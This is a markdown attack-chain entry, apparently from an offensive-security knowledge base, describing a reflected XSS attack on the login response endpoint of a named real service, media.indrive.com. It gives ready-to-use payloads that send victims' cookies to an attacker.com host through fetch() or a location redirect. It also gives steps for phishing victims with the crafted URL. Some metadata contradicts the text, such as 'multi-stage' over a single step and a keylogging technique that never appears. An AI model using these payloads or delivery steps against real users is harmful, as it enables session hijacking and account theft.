

---
tags:
  - xss
  - reflected-xss
  - javascript
  - session-hijacking
type: attack_chain
tools: []
tactics:
  - '[[Execution]]'
  - '[[Collection]]'
verified: false
platforms:
  - Web
submitted: true
complexity: low
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Exploit-Reflected-XSS-in-Login-Response-Endpoint]]'
step_count: 1
techniques:
  - '[[JavaScript]]'
  - '[[Keylogging]]'
updated_at: '2025-12-13T23:55:06.797Z'
description: >-
  A single-stage attack exploiting a reflected XSS vulnerability in the
  media.indrive.com login response endpoint to execute arbitrary JavaScript and
  steal user sessions.
skill_level: beginner
impact_level: high
id: 3e5382a9-4db5-4489-ba47-afbda7332343
validated: true
mitre_tactics:
  - '[[Execution]]'
  - '[[Collection]]'
mitre_techniques:
  - '[[JavaScript]]'
  - '[[Keylogging]]'
---
# Reflected XSS in inDrive Media Login Response for Session Hijacking

Multi-stage attack chain demonstrating a complete attack workflow.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 1 |
| Execution Time | ~1 minute |
| Skill Level | Beginner |
| Complexity | Low |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Web browser (e.g., Chrome, Firefox)

### Target Environment

- Web platform
- Service: media.indrive.com
- Endpoint: /login/response/
- Network access: Public internet

### Initial Access Requirements

- No credentials required
- Victim must visit the malicious URL (e.g., via phishing)
- No prior access needed

## Detailed Attack Procedures

### Step 1: Deliver and Execute Malicious Payload
procedure: [[procedures/Exploit-Reflected-XSS-in-Login-Response-Endpoint]]

**Objective**: Craft and deliver a malicious URL to the victim, triggering JavaScript execution upon page load to steal cookies and hijack sessions.

**Instructions**: Construct a malicious URL by appending an unsanitized parameter to the endpoint, such as a query string that injects JavaScript. For example, use a payload like <script>alert(document.cookie)</script> to test or <script>fetch('https://attacker.com/steal?cookie='+document.cookie)</script> to exfiltrate data.

Example malicious URL:

```url
https://media.indrive.com/login/response/?error=<script>document.location='https://attacker.com/steal?cookie='+document.cookie</script>
```

Send this URL to the victim via email, social engineering, or shortened link. When the victim accesses it, the payload reflects back unsanitized, executing the JavaScript.

To verify locally, open the URL in a browser and check for alert or network requests to your server.

**Expected Output**: JavaScript executes, displaying an alert with cookies or sending data to attacker-controlled server.

**Success Indicators**:
- Alert box appears with cookie data
- Network request observed to exfiltration endpoint
- Victim's session hijacked via stolen cookies

## Attack Chain Summary

### Key Achievements

1. Successful injection and execution of arbitrary JavaScript via reflected input
2. Theft of user cookies and session tokens
3. Potential for further impacts like malware spread or permission elevation

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[JavaScript]]
- [[Keylogging]]

### MITRE ATT&CK Tactics

- [[Execution]]
- [[Collection]]

---
*Last updated: 2023-10-01T00:00:00Z*
